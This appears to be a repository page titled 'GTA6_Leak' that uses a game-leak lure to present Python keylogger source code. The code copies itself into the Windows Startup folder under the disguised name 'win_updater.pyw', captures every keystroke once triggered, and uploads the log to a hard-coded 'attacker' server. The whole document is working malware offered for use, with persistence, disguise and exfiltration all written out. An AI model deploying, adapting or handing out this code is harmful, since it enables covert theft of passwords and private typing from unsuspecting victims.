 # GTA6_Leak
Enjoy
import os
import json
import requests
import shutil
from pynput import keyboard
from pathlib import Path

# -------------- ADD TO STARTUP SECTION --------------
def add_to_startup():
    startup_dir = os.path.join(os.environ['APPDATA'], r"Microsoft\Windows\Start Menu\Programs\Startup")
    script_path = os.path.realpath(_file) 
    target_path = os.path.join(startup_dir, "win_updater.pyw")  # disguise the name

    if not os.path.exists(target_path):
        shutil.copy(script_path, target_path)
        print("[+] Added to startup.")
    else:
        print("[=] Already in startup.")

add_to_startup()

key_list = []
x = False
log_file = 'logs.json'
START_LOGGING = False

# ✅ Update this to your attacker's IP
ATTACKER_SERVER = 'http://192.168.1.71:5000/upload'


def send_logs():
    try:
        with open(log_file, 'rb') as f:
            files = {'logfile': f}
            response = requests.post(ATTACKER_SERVER, files=files)
            print(f"[*] Sent log to attacker. Status code: {response.status_code}")
    except Exception as e:
        print(f"[!] Failed to send logs: {e}")


def update_json_file(key_list):
    with open(log_file, 'wb+') as key_log:
        key_log.write(json.dumps(key_list, indent=4).encode())
    send_logs()


def on_press(key):
    global x, START_LOGGING
    if key == keyboard.Key.f9:
        START_LOGGING = True
        print("[*] Logging activated.")

    if START_LOGGING:
        if not x:
            key_list.append({'Pressed': f'{key}'})
            x = True
        else:
            key_list.append({'Held': f'{key}'})
        update_json_file(key_list)


def on_release(key):
    global x
    if key == keyboard.Key.esc:
        print("[!] ESC pressed — exiting keylogger.")
        os._exit(0)

    if START_LOGGING:
        key_list.append({'Released': f'{key}'})
        update_json_file(key_list)

    x = False


# ✅ Start the keylogger listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
